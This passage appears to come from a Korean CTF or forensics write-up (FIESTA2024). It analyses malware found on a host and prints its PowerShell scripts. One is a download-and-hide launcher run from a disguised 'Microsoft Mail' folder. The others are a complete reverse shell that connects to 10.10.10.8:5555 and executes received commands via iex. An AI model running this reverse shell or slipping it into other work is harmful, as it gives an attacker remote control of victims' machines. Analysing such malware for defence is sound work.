 ```powershell

if (Test-InternetConnection) {
    Download-File
    PWUnzip
    Hide-Action
}

# 작업 디렉터리 이동 및 스크립트 실행
cd "C:\Program Files\Microsoft Mail\rc"
& ".\system.ps1"

```

<br>

해당 디렉토리에 가보니 두 개의 파일이 있었음음

![/assets/img/posts/2025-01-29-FIESTA2024-S-4-3/image.png](/assets/img/posts/2025-01-29-FIESTA2024-S-4-3/image.png){: width="80%" height="80%"}

<br>

**system.ps1**

```powershell
$client =  New-Object System.Net.Sockets.TCPClient("10.10.10.8", 5555)
& .\class.ps1
```

<br>

**class.ps1**

```powershell
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + "PS" + (pwd).PATH + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
```

<br>
